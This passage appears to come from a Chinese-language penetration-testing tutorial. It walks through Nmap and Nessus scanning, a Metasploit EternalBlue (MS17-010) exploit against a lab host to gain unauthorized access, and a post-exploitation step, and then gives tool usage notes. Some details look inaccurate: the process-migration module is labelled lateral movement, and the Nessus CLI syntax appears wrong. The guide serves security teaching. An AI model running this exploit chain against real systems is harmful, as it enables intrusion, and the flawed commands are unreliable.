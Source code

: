#### 4.2.3 实验步骤

1. **信息收集**：使用Nmap对目标网络进行扫描，识别开放的端口和服务。
   ```bash
   nmap -sV -sC 192.168.1.0/24
   ```

2. **漏洞扫描**：使用Nessus对目标资产进行漏洞扫描，生成漏洞报告。
   ```bash
   nessuscli scan --target 192.168.1.100
   ```

3. **漏洞利用**：使用Metasploit对扫描到的漏洞进行利用，获取对资产的未授权访问权限。
   ```bash
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS 192.168.1.100
   exploit
   ```

4. **横向移动**：在成功入侵一个资产后，使用Metasploit的横向移动模块进一步渗透目标网络。
   ```bash
   use post/windows/manage/migrate
   set SESSION 1
   run
   ```

## 5. 实际命令、代码或工具使用说明

### 5.1 Nmap

Nmap是一个强大的网络扫描工具，用于发现网络中的主机和服务。

```bash
# 扫描目标网络的开放端口
nmap -sV -sC 192.168.1.0/24

# 扫描目标主机的操作系统类型
nmap -O 192.168.1.100

# 扫描目标主机的UDP端口
nmap -sU 192.168.1.100
```

### 5.2 Nessus

Nessus是一个流行的漏洞扫描工具，用于检测网络中的安全漏洞。

```bash
# 启动Nessus服务
systemctl start nessusd

# 使用Nessus CLI进行扫描
nessuscli scan --target 192.168.1.100

# 查看扫描结果
nessuscli report list
```
